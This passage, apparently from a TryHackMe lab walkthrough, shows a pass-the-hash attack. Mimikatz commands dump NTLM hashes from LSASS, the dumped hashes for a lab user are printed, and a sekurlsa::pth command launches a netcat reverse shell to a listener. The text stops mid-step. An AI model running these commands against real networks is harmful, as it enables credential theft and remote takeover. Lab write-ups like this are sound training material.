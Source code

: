 We can now proceed, let's perform pass the hash, in order to do it, let's follow these steps:

1. ExtractingÂ NTLMÂ hashes from LSASS memory

```
.\mimikatz.exe 


mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # sekurlsa::msv 
```

This outputs us a lot of NTLM hashes, since our task says we need to perform those actions against `t1_toby.beck`, we only need his hash:

```
Authentication Id : 0 ; 565994 (00000000:0008a2ea)
Session           : RemoteInteractive from 3
User Name         : t1_toby.beck5
Domain            : ZA
Logon Server      : THMDC
Logon Time        : 5/16/2025 7:41:10 PM
SID               : S-1-5-21-3330634377-1326264276-632209373-4620
        msv :
         [00000003] Primary
         * Username : t1_toby.beck5
         * Domain   : ZA
         * NTLM     : 533f1bd576caa912bdb9da284bbc60fe
         * SHA1     : 8a65216442debb62a3258eea4fbcbadea40ccc38
         * DPAPI    : 0537b9105954f5d1d1bc2f1763d86fd6
```

There we go, we can now get ourselves a shell:

```
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:t1_toby.beck /domain:za.tryhackme.com /ntlm:533f1bd576caa912bdb9da284bbc60fe /run:"C:\tools\nc64.exe -e cmd.exe IP 4444
```

If we had our listener ready, we can see the connection:

![Pasted image 20250516144946.png](../../../IMAGES/Pasted%20image%2020250516144946.png)

Now, we need to do:
